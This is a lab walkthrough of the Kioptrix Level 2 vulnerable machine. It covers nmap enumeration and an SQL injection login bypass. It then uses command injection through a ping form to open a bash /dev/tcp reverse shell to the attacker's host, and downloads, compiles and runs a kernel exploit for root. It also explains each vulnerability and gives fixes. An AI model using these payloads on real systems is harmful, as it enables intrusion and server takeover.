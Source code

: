 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed May 25 22:52:16 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.134
Nmap scan report for 192.168.65.134
Host is up (0.0021s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-05-25T23:43:02+00:00; -3h09m37s from scanner time.
630/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4C:24:00 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -3h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   2.11 ms 192.168.65.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 25 22:52:49 2022 -- 1 IP address (1 host up) scanned in 33.84 seconds
```
</br>

Port 80, Website Main page: </br>
![main_page](images/kioptrixv2/main_page.png) </br>
This admin panel was vulnerable to SQL Injection, I was able to get inside using this payload: </br>
```' or '1'='1``` </br>

![index_page](images/kioptrixv2/index_page.png) </br>
The web server was asking for an address to ping, and this ping utility script was vulnerable to code injection: </br>
![code_injection](images/kioptrixv2/code_injection.png) </br>
To insert an additional command to the ping utility I did this: ```127.0.0.1 && whoami``` </br>
To gain a reverse shell I did this: </br>
Kali Linux: ```nc -nlvp 1234``` </br>
Web Server: ```127.0.0.1 && bash -i >& /dev/tcp/192.168.65.128/1234 0>&1``` </br>
**Vulnerability Explanation:** </br>
```OS Command Injection:``` </br>
OS Command Injection (also known as shell injection) is a web security vulnerability that allows an
attacker to execute an arbitrary operating system (OS) commands on the server that is running an
application, and typically fully compromise the application and all its data. </br>
```SQL Injection:``` </br>
SQL injection occurs when specially crafted user input is processed by the receiving program in a way
that allows the input to exit a data context and enter a command context. A successful SQL injection
exploit can read sensitive data from the database,modify database data,execute administration operations
on the database,recover the content of a given file present on the DBMS file system and in some cases
issue commands to the operating system. </br>
**Vulnerability Fix:** </br>
```OS Command Injection:``` </br>
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS
commands from application-layer code. In virtually every case, alternate ways of implementing the
required functionality are using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input
validation must be performed. </br>
```SQL Injection:``` </br>
Most instances of SQL injection can be prevented by using parameterized queries (also known as
prepared statements) instead of string concatenation within the query. </br> </br>
**Initial Shell Screenshot:** </br>
![shell_poc](images/kioptrixv2/shell_poc.png) </br>
# Privilege Escalation:
I checked the kernel version of the machine with the command: ```uname -a``` </br>
![uname_cmd](images/kioptrixv2/uname_cmd.png) </br>
I found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/9542) </br>
**File Transferring:** </br>
I opened an HTTP server on my Kali machine with this command:
```python -m http.server 80``` </br>
Since wget command was installed on the machine, I downloaded the exploit to the /tmp folder: </br>
```wget 192.168.65.128/kernel.c``` </br>
Compiled it: </br>
```gcc kernel.c -o kernel``` </br>
Gave it Execution Permissions: </br>
```Chmod +x kernel``` </br>
**Vulnerability Exploited:** CentOs Kernel 2.6 Exploit. </br>
**Vulnerability Explanation:** The udp_sendmsg function in the UDP implementation in (1) net/ipv4/udp.c
and (2) net/ipv6/udp.c in the Linux kernel before 2.6.19 allows local users to gain privileges or cause a
denial of service (NULL pointer dereference and system crash) via vectors involving the MSG_MORE
flag and a UDP socket. </br> </br>
**Proof of Screenshot:** </br>
![pe_poc](images/kioptrixv2/pe_poc.png)

